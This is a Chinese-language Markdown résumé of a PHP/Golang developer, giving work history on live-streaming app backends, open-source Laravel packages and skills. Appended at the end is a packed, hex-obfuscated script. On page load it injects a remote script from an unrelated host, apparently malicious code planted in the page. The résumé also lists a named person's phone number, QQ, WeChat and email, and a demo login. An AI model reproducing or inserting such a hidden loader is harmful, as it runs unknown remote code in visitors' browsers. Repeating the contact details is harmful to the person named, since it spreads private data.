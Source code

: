 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：9年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP、Golang开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one
- Github：[https://github.com/al-one](https://github.com/al-one?tab=repositories&type=source)

---

# 工作经历

## 上饶市橙橙网络科技有限公司上海分公司 （2021年10月 ~ 至今）

### [七号助手APP](http://app.5wufun.com/h5app/#/down?p=mhxy&a=release)
- 负责公司子项目七号助手APP后端开发；
- 搭建项目后端生产及测试运行环境；
- 使用 Laravel 框架构建项目API接口；
- 使用Inertia.js+Vue3+Bootstrap构建管理后台；
- 使用Redis分渠道异步统计用户/设备数据；


## 上海宇燕网络科技有限公司 （2016年10月 ~ 2021年3月）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站搭建；
- 为公司开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建搭建、模板制作等


---

# 开源项目和作品

## 开源项目

 - [laravel-huawei-push](https://packagist.org/packages/al-one/laravel-huawei-push) : 华为离线推送Laravel通知频道
 - [laravel-xiaomi-push](https://packagist.org/packages/al-one/laravel-xiaomi-push) : 小米离线推送Laravel通知频道
 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [eloquent-super-relations](https://packagist.org/packages/al-one/eloquent-super-relations) : Eloquent关联模型加强(可读缓存)
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [hass-xiaomi-miot](https://github.com/al-one/hass-xiaomi-miot) : 小米智能家居设备接入Home Assistant插件
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功


---

# 技能清单
- 语言：PHP / JavaScript / Python / Golang / Shell
- 框架：Laravel / Symfony / ThinkPHP / Vue.js
- 架构：Nginx / MySQL / Redis / Supervisor / Docker
- 前端：Bootstrap / Lodash / Axios / jQuery
- 工具：PhpStorm / Git / Composer / PHPUnit / xDebug
- 其他：Swagger / Regex / RaspberryPi / Opencv / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。


<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>
